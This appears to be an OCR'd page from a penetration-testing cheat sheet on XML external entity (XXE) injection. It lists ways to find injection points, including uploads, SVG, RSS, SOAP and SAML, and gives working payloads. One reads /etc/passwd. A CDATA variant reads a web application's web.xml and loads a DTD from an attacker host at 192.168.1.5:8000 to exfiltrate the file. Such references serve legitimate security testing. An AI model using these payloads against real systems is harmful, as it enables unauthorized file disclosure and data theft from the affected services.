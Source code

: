 > **Methodology** [whitechaitai](https://twitter.com/whitechaitai)

1. Convert the content type from "application/json"/"application/x-www-form-urlencoded" to "applcation/xml".
2. File Uploads allows for docx/xlcs/pdf/zip , unzip the package and add your evil xml code into the xml files.
3. If svg allowed in picture upload , you can inject xml in svgs.
4. If the web app offers RSS feeds , add your milicious code into the RSS.
5. Fuzz for /soap api , some applications still running soap apis
6. If the target web app allows for SSO integration, you can inject your milicious xml code in the SAML request/reponse

## Test Payload

#### Using private External Entity[#](https://trojand.com/cheatsheet/Web/XXE\_Injection.html#using-private-external-entity)

```xml
<?xml version="1.0" ?>
<!DOCTYPE data [
<!ELEMENT data ANY >
<!ENTITY cat "Tom">
]>
<Contact>
<lastName>&cat;</lastName>
<firstName>Jerry</firstName>
</Contact>
```

#### Using a public External Entity[#](https://trojand.com/cheatsheet/Web/XXE\_Injection.html#using-a-public-external-entity)

```xml
<?xml version="1.0"?>
<!DOCTYPE data [
	<!ELEMENT data ANY >
	<!ENTITY cat SYSTEM "file:///etc/passwd">
]>
<Contact>
<lastName>&cat;</lastName>
<firstName>Jerry</firstName>
</Contact>
```

## CDATA

*   [ ] XXE that can print XML files through the CDATA:

    ```xml
    <?xml version="1.0"?>
    <!DOCTYPE data [
    <!ELEMENT data ANY >
    <!ENTITY % start "<![CDATA[">
    <!ENTITY % file SYSTEM "file:///var/www/html/myapp/WEB-INF/web.xml" >
    <!ENTITY % end "]]>">
    <!ENTITY % dtd SYSTEM "http://192.168.1.5:8000/wrapper.dtd" >
    %dtd;
    ]>
    <Contact>
    <lastName>&wrapper;</lastName>
    <firstName>FIRSTNAME_FILLER</firstName>
    </Contact>
    ```